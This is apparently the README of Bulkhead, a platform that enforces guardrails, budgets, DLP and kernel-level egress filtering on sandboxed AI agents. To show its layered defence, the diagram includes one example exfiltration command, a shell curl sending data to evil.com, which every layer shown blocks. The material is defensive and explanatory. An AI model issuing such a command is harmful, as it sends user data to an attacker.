

# Bulkhead

[](https://github.com/Baselyne-Systems/bulkhead/actions/workflows/ci.yml)
[](https://deepwiki.com/Baselyne-Systems/bulkhead)

**Bulkhead is an enterprise platform for running autonomous AI agents in production with enforced policy controls.**

AI agents that can browse the web, execute code, and call APIs need more than a prompt — they need guardrails that can't be bypassed, budgets that can't be exceeded, network boundaries that can't be circumvented, and an audit trail that can't be tampered with. Bulkhead provides all four as independent enforcement layers, so a failure in one doesn't compromise the others.

## Defense in Depth

Every tool call an agent makes passes through four independent enforcement layers before it can take effect:

```
Agent calls ExecuteTool("shell", {"cmd": "curl https://evil.com/exfil?data=..."})

    1. Guardrails ── Compiled policy evaluated in Rust (<50ms)
       │              Tool "shell" matched rule "deny-shell" → DENY
       │              (if allowed, continues to next layer)
       │
    2. Budget ────── Per-agent spending limit checked before execution
       │              $47.20 of $100.00 used → ALLOW
       │
    3. DLP ────────── Content classified for sensitive data patterns
       │              SSN detected in parameters → DENY
       │              (blocks data exfiltration even if guardrails allow the tool)
       │
    4. Egress ────── iptables rules at the kernel level
                      evil.com not in allowlist → DROPPED
                      (even if all policy layers pass, network is filtered independently)
```

The Host Agent is **policy-only** — it evaluates and returns a verdict (ALLOW / DENY / ESCALATE) but never executes agent code. Agents run inside sandboxed containers and execute tools locally. This separation means a compromised agent cannot influence its own policy evaluation.

## Isolation Tiers

Sandbox security is automatically selected based on agent trust level and data sensitivity, or overridden explicitly by operators:

| Tier | Security Profile | When Used |
|------|-----------------|-----------|
| **Standard** | Docker container (cgroups + namespaces) | Trusted agents, public data |
| **Hardened** | + seccomp profile, read-only rootfs, no-new-privileges, dropped capabilities | New/untrusted agents, confidential data |
| **Isolated** | + gVisor or Kata runtime (kernel-level isolation) | High-risk agents, restricted data |

Auto-selection matrix:

| Trust \ Data | Public | Internal | Confidential | Restricted |
|-------------|--------|----------|--------------|------------|
| Trusted | standard | standard | standard | isolated |
| Established | standard | standard | hardened | isolated |
| New | hardened | hardened | isolated | isolated |

## Architecture



| Component | Technology | Role |
|-----------|-----------|------|
| **Control Plane** | Go 1.24, gRPC, PostgreSQL 16 | 9 microservices: orchestration, policy management, fleet management, audit |
| **Host Agent** | Rust 1.83, Tokio, Bollard | Per-host policy engine: guardrails evaluation, Docker lifecycle, iptables egress |
| **Python SDK** | Python 3.10+, LangChain | `@tool` decorator: evaluate-execute-report cycle, LangChain wrapper |

## Key Capabilities

**Security & Compliance**
- **Real-time guardrails** — Compiled policy rules evaluated in Rust, targeting <50ms per decision. Hot-reload without sandbox restart.
- **Per-sandbox egress control** — iptables FORWARD chain rules enforce network allowlists at the kernel level. Unapproved destinations are silently dropped.
- **DLP egress inspection** — Content classification detects SSNs, credit cards, AWS keys, and other sensitive patterns before data leaves the sandbox.
- **Append-only audit trail** — Every action (allowed, denied, escalated) recorded immutably with tool name, parameters, verdict, matched rule, and latency metrics.
- **Scoped credentials** — Time-limited tokens (max 24h) with explicit permission scopes. SHA-256 hashed for storage.

**Operations**
- **Human-in-the-loop** — Non-blocking approval/question/escalation requests. Configurable delivery channels (webhook-based) and timeout policies.
- **Budget enforcement** — Per-agent spending limits checked before every tool execution. Configurable actions on exceeded: halt, request increase, or warn.
- **Compute fleet management** — Hosts self-register and heartbeat every 30s. Best-fit placement with `FOR UPDATE SKIP LOCKED` prevents resource overselling. Warm pool pre-reserves slots for instant placement.
- **Behavior analysis** — Considered evaluation tier detects anomalies: high denial rates, stuck agents, runaway loops. Configurable alerts with webhook delivery.

**Developer Experience**
- **Python SDK** — `@tool` decorator handles the full evaluate-execute-report cycle. `wrap_langchain_tool()` brings existing LangChain agents to Bulkhead with one line.
- **Full orchestration** — Create a task, and the platform handles placement, policy compilation, credential injection, and sandbox creation automatically.
- **OpenTelemetry** — Distributed tracing across all services via Jaeger.

## Quick Start

```bash
# Build everything
make build

# Build the operator CLI
make build-bkctl

# Run all unit tests
make test

# Start the full stack (9 Go + 1 Rust + PostgreSQL)
docker compose -f deploy/docker-compose.yml up --build

# Verify services are healthy
docker compose -f deploy/docker-compose.yml ps

# Use bkctl to manage the platform
bkctl agent list
bkctl guardrail list-rules
bkctl budget get <agent-id> -o json
```

## Choose Your Guide

| I want to... | Guide |
|--------------|-------|
| Deploy the platform, manage agents and policies via `bkctl` CLI | [Operator Guide](docs/getting-started/operator-guide.md) |
| Build an agent with the Python SDK (`@tool` decorator) | [Agent Developer Guide](docs/getting-started/agent-guide.md) |
| Integrate Bulkhead guardrails into a LangChain agent | [LangChain Integration Guide](docs/getting-started/langchain-guide.md) |

## Project Structure

```
bulkhead/
├── proto/                          # Protocol Buffer definitions
│   └── platform/
│       ├── identity/v1/            #   Agent registry, credentials
│       ├── workspace/v1/           #   Workspace lifecycle
│       ├── host_agent/v1/          #   Host Agent gRPC services
│       ├── compute/v1/             #   Host fleet, placement, warm pool
│       ├── guardrails/v1/          #   Rule CRUD, policy compilation
│       ├── human/v1/               #   Human interaction requests
│       ├── activity/v1/            #   Action records, alerts
│       ├── economics/v1/           #   Usage metering, budgets
│       ├── governance/v1/          #   Data classification, DLP
│       └── task/v1/                #   Task lifecycle
│
├── control-plane/                  # Go microservices (9 services)
│   ├── cmd/
│   │   ├── bkctl/                  #   Operator CLI (bkctl)
│   │   └── .../                    #   Service entry points
│   ├── internal/                   #   Business logic per service
│   └── migrations/                 #   SQL schema migrations (13 files)
│
├── runtime/                        # Host Agent (Rust)
│   └── crates/
│       ├── runtime/                #   Main binary
│       │   └── src/
│       │       ├── main.rs         #     Entry point, service wiring
│       │       ├── server.rs       #     HostAgentService (control API)
│       │       ├── agent_api.rs    #     HostAgentAPIService (policy-only)
│       │       ├── container.rs    #     Docker + iptables egress
│       │       └── sandbox/        #     SandboxManager, SandboxState
│       ├── guardrails-eval/        #   Policy evaluator library
│       └── proto-gen/              #   Generated protobuf Rust code
│
├── sdk/                            # Language SDKs
│   └── python/                     #   Python SDK (bulkhead-sdk)
│       ├── bulkhead/               #     Client, @tool decorator, types
│       └── examples/               #     Basic agent, LangChain integration
│
├── deploy/
│   ├── docker-compose.yml          # Full stack (11 containers)
│   ├── helm/                       # Kubernetes Helm chart
│   └── docker/
│       ├── Dockerfile.control-plane
│       └── Dockerfile.host-agent
│
├── docs/
│   ├── getting-started/
│   │   ├── operator-guide.md       # Deploy and operate the platform
│   │   ├── agent-guide.md          # Build agents with the Python SDK
│   │   └── langchain-guide.md      # LangChain integration
│   ├── architecture.md             # Design principles and core flows
│   ├── api-reference.md            # Complete RPC reference
│   └── deployment.md               # Docker Compose, config, database
│
├── Makefile                        # Build, test, lint, dev targets
└── LICENSE                         # Apache 2.0
```

## Development

| Target | Description |
|--------|-------------|
| `make build` | Build Go control-plane and Rust Host Agent |
| `make build-bkctl` | Build the `bkctl` operator CLI with version info |
| `make test` | Run all unit tests (Go + Rust) |
| `make test-integration` | Run integration tests (requires Docker) |
| `make proto` | Regenerate protobuf code |
| `make dev` / `make dev-down` | Start / stop Docker Compose |
| `make fmt` | Format Go + Rust code |
| `make lint` | Lint protos, Go, Rust |

## Reference Documentation

- [Architecture](docs/architecture.md) — Design principles, service details, core flow diagrams
- [API Reference](docs/api-reference.md) — Complete RPC reference for all 10 services
- [Deployment Guide](docs/deployment.md) — Docker Compose topology, configuration, database schema

## License

Apache 2.0 — see [LICENSE](LICENSE) for details.
